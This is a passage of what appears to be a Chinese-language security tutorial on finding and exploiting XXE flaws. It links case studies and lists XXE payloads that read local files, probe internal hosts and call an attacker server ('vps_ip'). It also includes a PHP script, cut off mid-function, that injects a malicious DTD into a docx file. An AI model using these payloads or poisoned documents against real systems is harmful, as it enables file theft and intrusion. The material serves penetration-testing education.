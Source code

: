     - [Revisting XXE and abusing protocols](https://sensepost.com/blog/2014/revisting-xxe-and-abusing-protocols/) 的分析者利用该原理在其他OpenID平台结合expect模块实现了RCE。
  - [XXE on Windows system …then what ??](https://medium.com/@canavaroxum/xxe-on-windows-system-then-what-76d571d66745) 【XXE+SMB=>内网RCE】
  - [Apache Solr XXE漏洞分析 -【CVE-2018-8026 】](https://xz.aliyun.com/t/2448) 
  - [Phone Call to XXE via Interactive Voice Response](https://hackerone.com/reports/395296) 【打个电话也能XXE :)】

# 发现XXE

尝试注入特殊字符，使XML失效，引发解析异常，明确后端使用XML传输数据。

- 单双引号 `' " ` 。XML的属性值必须用引号包裹，而数据可能进入标签的属性值。
- 尖括号` < > `。XML的开始/结束标签用尖括号包裹，数据中出现尖括号会引发异常。
- 注释符 `<!-- ` 。XML使用 `<!-- This is a comment -->`  作注释。
- `&` 。& 用于引用实体。
- CDATA 分隔符` ]]> ` 。`<![CDATA[foo]]> ` 中的内容不被parser解析，提前闭合引发异常。

尝试利用实体和DTD。

- 引用外部DTD文件访问内网主机/端口。`<!DOCTYPE a SYSTEM "http://127.0.0.1:2333">` （看响应时间）
- 引用外部DTD文件访问外网。`<!DOCTYPE a SYSTEM "http://vps_ip" >`
- 引用内部实体。`<!DOCTYPE a [<!ENTITY xxe "findneo">]><a>&xxe;</a>`
- 外部实体读本地文件。`<!DOCTYPE a [<!ENTITY xxe SYSTEM "file:///etc/hosts">]><a>&xxe;</a>`
- 外部实体访问内网主机/端口。`<!DOCTYPE a SYSTEM "http://192.168.1.2:80"> `（看响应时间）
- 外部实体访问外网。`<!DOCTYPE a [<!ENTITY xxe SYSTEM "http://vps_ip">]><a>&xxe;</a>` 
- 判断问题存在可以OOB提取数据。

# 生成恶意Word文档

上面提到的多个案例都需要用到自定义DTD的docx文件，有个名为 [XXEGen](https://buer.haus/xxegen/) 的在线网站可以方便地生成和监听（也可自定义监听地址），从而方便快速地测试XXE是否存在，但目前看来还不支持自定义DTD，如果需要用到OOB之类的技术，可能就不太方便。

所以我写了个小脚本，可以用来生成一个正常docx文件，然后注入自定义的DTD和实体引用。另外新版的word软件默认禁用DTD，trigger 函数还可以本地测试下word文件是否有问题。

其实修改 docx 文件的原理很简单，手动也可以做。解压 demo.docx 到 demo文件夹 ，直接修改 ` demo/word/document.xml`  文件内容，全选 demo 文件夹中的文件，使用 7zip 的仅存储方式压缩成 demo2.docx 即可。

```php
<?php
// by https://github.com/findneo
function genword($filename,$filecontent){
    $word = new COM("word.application") or die("Unable to instantiate Word");
    $word->Visible = 0;//保持程序在后台运行
    $word->Documents->Add();//新建Word文档
    $word->Selection->TypeText($filecontent);//写入指定内容
    $word->Documents[1]->SaveAs(getcwd()."/".$filename);//保存到指定路径
    $word->Quit();//退出程序
}

function poisonWord($filename,$flag,$dtd,$entity_reference) {
    $zip = new ZipArchive();
    $zip->open($filename);
    $xml=$zip->getFromName('word/document.xml');
    $prolog='<?xml version="1.0" encoding="UTF-8" standalone="yes"?>';
    $evilxml=str_replace([$prolog,$flag],[$prolog.$dtd,$flag.$entity_reference],$xml);//构造恶意XML
    $zip->deleteName('word/document.xml');
    $zip->addFromString("word/document.xml",$evilxml);//更新docx文件
    $zip->close();
}

function trigger($filename){
    $zip = new ZipArchive();
    $zip->open($filename);
    $xml=$zip->getFromName('word/document.xml');
```